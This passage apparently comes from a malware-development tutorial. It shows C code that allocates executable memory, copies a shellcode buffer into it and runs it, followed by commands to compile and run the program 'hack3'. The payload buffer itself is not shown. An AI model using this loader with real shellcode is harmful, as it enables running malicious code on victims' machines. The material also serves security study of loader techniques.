 ```cpp

int main() {
  size_t pagesize = sysconf(_SC_PAGESIZE);

  void *exec = mmap(0, pagesize, PROT_READ | PROT_WRITE | PROT_EXEC,
                    MAP_PRIVATE | MAP_ANON, -1, 0);

  if (exec == MAP_FAILED) {
    perror("mmap");
    return 1;
  }

  memcpy(exec, code, sizeof(code));
  ((void(*)())exec)();

  return 0;
}
```

Compile it:    

```bash
clang -o hack3 hack3.c
```

![malware](/assets/images/176/2025-09-02_15-00.png){:class="img-responsive"}    

Run it:    

```bash
./hack3
```
